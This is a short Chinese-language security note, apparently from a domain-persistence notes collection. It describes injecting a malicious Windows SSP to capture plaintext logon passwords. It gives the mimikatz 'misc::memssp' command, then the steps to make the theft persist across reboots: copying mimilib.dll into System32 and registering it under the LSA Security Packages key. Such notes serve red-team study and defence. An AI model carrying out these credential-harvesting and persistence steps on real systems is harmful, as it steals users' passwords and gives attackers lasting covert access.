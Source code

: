 # 恶意 SSP 注入收集密码

SSP 安全服务提供者，是微软提供的与安全有关的函数接口，用户可根据自己的需求调用 SSP 接口实现高度自定义的身份验证等安全功能。攻击者注入恶意的 SSP 接口覆盖微软默认的某些安全功能，导致用户一旦进行身份验证，恶意的 SSP 将保存用户输入明文密码。

```
mimikatz.exe "privilege::debug" "misc::memssp" "exit"
```

![image-20250218201728823](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250218201728823.png)

当用户登录时，恶意 ssp 触发，将明文密码写入 C:\Windows\System32\mimilsa.txt。

![image-20250218202327702](https://cdn.jsdelivr.net/gh/LilDean17/secdoc@main/AD%20%E5%9F%9F%E5%AE%89%E5%85%A8/%E5%9F%9F%E7%BB%B4%E6%9D%83/images/image-20250218202327702.png)

##### 注册表添加 SSP

将恶意 SSP 添加到注册表，即使目标重启，机器仍然使用我们恶意的 SSP。

```
将 mimikatz 中的 mimilib.dll 文件放到系统的 C:\Windows\System32\ 目录下。
HKEY_LOCAL_MACHINE/System/CurrentControlSet/Control/Lsa 的 Security Packages 项写入值 "mimilib.dll" 。
系统重启后，登录密码保存在 C:\Windows\System32\kiwissp.log 下。
```


